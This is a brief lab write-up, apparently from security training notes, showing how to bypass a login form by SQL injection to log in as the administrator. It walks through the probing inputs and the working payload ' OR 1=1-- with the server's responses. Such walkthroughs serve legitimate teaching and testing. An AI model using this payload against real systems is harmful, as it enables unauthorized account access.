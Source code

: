 # SQL injection vulnerability allowing login bypass

### Goal:
`Log in to the application as the administrator user`
### Info: The injection point is the login functionality
`target.com/login?username=<user>&password=<password>`
<br><br><br>

**<ins>Step 1: Test the injection point</ins>**

username=administrator&password='

`500: internal server error`<br><br>

username=administrator&password='--

`200`

This indicates the existence of an SQL misconfiguration.
<br><br>

**<ins>Step 2: Exploit the vulnerability</ins>**

username=administrator&password=' OR 1=1--

`Success!`<br><br>

This request sends the server this query:

`password = '' OR 1=1`<br> `password = false OR true`

This evaluates to true and logs us in as the specified user.
